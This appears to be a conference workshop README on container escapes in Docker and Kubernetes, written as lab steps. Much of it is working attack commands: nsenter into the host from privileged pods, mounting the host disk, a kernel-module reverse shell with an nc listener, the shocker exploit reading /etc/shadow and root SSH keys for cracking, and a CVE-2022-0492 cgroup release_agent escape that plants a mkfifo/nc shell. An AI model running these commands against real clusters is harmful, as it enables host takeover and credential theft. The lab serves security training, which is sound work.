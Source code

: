 # TagesConf: container escape


# Setting Up Workspace

Start kubernetes cluster with [Killercode Kubernetes](https://killercoda.com/playgrounds/scenario/kubernetes).

# Privileged

## Let's play with linux namespaces, cgroups

On Host
```shell
ls -l /proc/$$/ns # on the host
```

In container
```shell
ls -l /proc/$$/ns # in the container
capsh --print
```

## Privileged+hostPID

Run privileged pod

```shell
kubectl apply -f 
kubectl exec -it privileged-hostpid -- bash
```

Enter to pid 1 namespaces.

```shell
ls -la /
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
ls -la /
```

## Mounting Disk

```shell
kubectl apply -f 
kubectl exec -it privileged -- bash
```

```shell
$ cat /proc/cmdline
init=/init loglevel=1 root=/dev/vdb rootfstype=erofs ro vsyscall=emulate panic=0 linuxkit.unified_cgroup_hierarchy=1 console=hvc0 tsc=reliable  virtio_net.disable_csum=1 eth0.IPNet=192.168.65.3/24 eth0.router=192.168.65.1 eth0.mtu=65535 eth1.dhcp vpnkit.connect=connect://2/1999 com.docker.VMID=2ebe4eef-0e69-4cab-9c09-0ba5ca9fcd57
$ blkid
/dev/vdb: UUID="f77c9dcd-aa75-4115-9035-4ace04a5efae" BLOCK_SIZE="4096" TYPE="erofs"
/dev/vdc: UUID="5c6189ad-6080-41e6-827f-f4f302ada263" BLOCK_SIZE="4096" TYPE="erofs"
/dev/vda1: UUID="9e7b9c89-6577-4495-80ee-fd511f955bd1" BLOCK_SIZE="4096" TYPE="ext4" PARTUUID="d08fb88d-01"
$ mount -o ro /dev/vda1 /mnt
$ ls -la /mnt
# or
$ debugfs /dev/vda1
```

References:
  - [Article: Reboot your pc from a docker container](https://disconnect3d.pl/2018/11/12/reboot-your-pc-from-a-docker-container/)
  - [tbhaxor: Container Breakout – Part 1 (LAB: Privileged Container)](https://tbhaxor.com/container-breakout-part-1/)


# hostNetwork

Deploy pods
```shell
kubectl apply -f 
kubectl apply -f 
kubectl get svc nginx
kubectl logs -f nginx-client
kubectl exec -it host-network -- bash
```

Sniff requests
```shell
ifconfig
tcpdump -i any -v 'tcp and host 10.110.149.83'
```


# 2 shells and mknode cap

https://labs.withsecure.com/publications/abusing-the-access-to-mount-namespaces-through-procpidroot

https://radboudinstituteof.pwning.nl/posts/htbunictfquals2021/goodgames/

# Excessive Capabilities

## CAP\_SYS\_PTRACE + hostPid

Spawn container
```shell
docker run -it --rm --cap-add=SYS_PTRACE --pid=host  ubuntu bash
# or
kubectl apply -f ...
kubectl exec -it cap-sys-ptrace -- bash
```

Check that we have ptrace capability
```shell
capsh --print | grep ptrace

gdb <pid>
# or
./cdk run check-ptrace
```

```shell
curl -L -o inject.c ...
gcc ./inject.c
./a.out
```

References:
  - [CDK Exploit ptrace](https://github.com/cdk-team/CDK/wiki/Exploit:-check-ptrace)
  - [Linux Inject](https://github.com/gaffe23/linux-inject) - Tool for injecting a shared object into a Linux process
  - [tbhaxor: Container Breakout – Part 1 (LAB: Process Injection)](https://tbhaxor.com/container-breakout-part-1/)


## CAP\_SYS\_MODULE

Print kernel version, architecture, hostname and build date
```shell
uname -a
```

Read kernel's boot image and the root UUID.
```shell
cat /proc/cmdline
```

Install linux-headers
```shell
apt install linux-headers-$(uname -r)
```

Change address to connect and compile module
```shell
curl -L -o Makefile
curl -L -o reverse-shell.c
ifconfig
vim reverse-shell.c
make
```

Start listenning no port 4444 for reverse shell and install module.
```shell
nc -klvnp 4444 &
insmod reverse-shell.ko
```
If you want to install module again, remove it before installing
```shell
rmmod reverse-shell.ko
```

Getting Full TTY
```shell
/usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
```

References:
  - [Writeup: How I Hacked Play-with-Docker and Remotely Ran Code on the Host](https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host)


## CAP\_DAC\_READ\_SEARCH

Create pod
```shell
k apply -f 
```

Compile shocker exploit
```shell
curl -LO http://stealth.openwall.net/xSports/shocker.c
gcc ./shocker.c -o ./shocker
```

Find interesting file, foe example /etc/passwd and /etc/shadow
```shell
./shocker /etc/passwd passwd
./shocker /etc/shadow shadow
unshadow passwd shadow > unshadow.txt
john unshadow.txt
```

So you bruteforce `ubuntu` password, let's try to connect with it
```shell
ssh ubuntu@192.168.1.0
```

So, imagine that you didn't managed to bruteforce password, let's try to find some ssh keys.

```shell
./shocker /root/.ssh/id_rsa id_rsa
chmod 0600 id_rsa
ssh -i id_rsa root@192.168.1.0
```

References:
  - [Exploit: shocker.c](http://stealth.openwall.net/xSports/shocker.c)
  - [Article: Docker breakout exploit analysis](https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3)


## CAP\_DAC\_READ\_SEARCH + CAP\_DAC\_READ\_SEARCH

Same as above, but you can write to any file now. Just overwrite `authorized_keys` file.
## CAP\_SYS\_ADMIN

[Understanding docker container escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)

```shell
k apply -f - 
k exec -it cap-sys-admin -- bash
```

### CVE-2022-0492

```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
mount 
host_path=`mount | head -1 | sed -n 's/.*\perdir=\([^,]*\).*/\1/p'`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 51337 >/tmp/f' >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
cat /output
```

References:
  - [New Linux Vulnerability CVE-2022-0492 Affecting Cgroups: Can Containers Escape?](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/)
  - [CAP_SYS_ADMIN Abusing usermod helper API](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/excessive-capabilities#abusing-usermode-helper-api)


